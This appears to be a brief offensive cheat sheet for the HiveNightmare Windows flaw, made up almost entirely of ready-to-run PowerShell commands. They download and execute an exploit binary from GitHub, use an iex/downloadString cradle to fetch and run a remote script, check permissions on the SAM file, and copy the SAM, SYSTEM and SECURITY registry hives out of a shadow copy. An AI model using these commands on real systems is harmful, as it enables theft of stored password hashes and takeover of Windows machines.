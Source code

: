 ### Requirements
```
- system protection must be in enabled state
- system must have at least one shadow copy
```

### Exploit
```
iwr https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe -OutFile HiveNightmare.exe
.\HiveNightmare.exe
```

### Alternative
```
iex((New-Object Net.WebClient).downloadString('https://github.com/WiredPulse/Invoke-HiveNightmare'))
```

### Manually - check for read permissions
```
icacls C:\Windows\system32\config\sam
```

### Copy shadow copy (sometimes HarddiskVolumeShadowCopy2 or HarddiskVolumeShadowCopy3)
```
foreach($i in @("SYSTEM","SECURITY","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\$i", "C:\temp\$i")};
```

### References
https://github.com/GossiTheDog/HiveNightmare  
https://github.com/WiredPulse/Invoke-HiveNightmare  

